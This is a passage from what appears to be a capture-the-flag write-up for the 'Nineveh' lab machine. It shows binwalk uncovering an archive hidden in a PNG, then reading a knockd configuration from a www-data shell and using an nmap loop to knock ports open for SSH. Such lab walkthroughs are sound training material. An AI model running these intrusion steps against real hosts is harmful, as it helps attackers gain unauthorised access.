 Looking at the picture from `/secure_notes` we find files inside

```shell
$ binwalk nineveh.png 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 1497 x 746, 8-bit/color RGB, non-interlaced
84            0x54            Zlib compressed data, best compression
2881744       0x2BF8D0        POSIX tar archive (GNU)
```

In the other hand, we have a `knockd` service running

![](../assets/Pasted%20image%2020250611134605.png)

```shell
www-data@nineveh:/var/www/ssl/secure_notes$ cat /etc/knockd.conf
cat /etc/knockd.conf
[options]
 logfile = /var/log/knockd.log
 interface = ens160

[openSSH]
 sequence = 571, 290, 911 
 seq_timeout = 5
 start_command = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
 tcpflags = syn

[closeSSH]
 sequence = 911,290,571
 seq_timeout = 5
 start_command = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
 tcpflags = syn
```

So looking at the config, if we hit those ports in the same order, the `ssh` port will open.

```shell
$ for x in 571 290 911 22; do nmap -Pn --max-retries 0 -p $x 10.10.10.43; done
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-11 13:50 CEST
Warning: 10.10.10.43 giving up on port because retransmission cap hit (0).
Nmap scan report for 10.10.10.43
Host is up.

PORT    STATE    SERVICE
571/tcp filtered umeter

Nmap done: 1 IP address (1 host up) scanned in 1.08 seconds
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-11 13:50 CEST
Warning: 10.10.10.43 giving up on port because retransmission cap hit (0).
Nmap scan report for 10.10.10.43
Host is up.

PORT    STATE    SERVICE
290/tcp filtered unknown

Nmap done: 1 IP address (1 host up) scanned in 1.14 seconds
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-11 13:50 CEST
Warning: 10.10.10.43 giving up on port because retransmission cap hit (0).
Nmap scan report for 10.10.10.43
```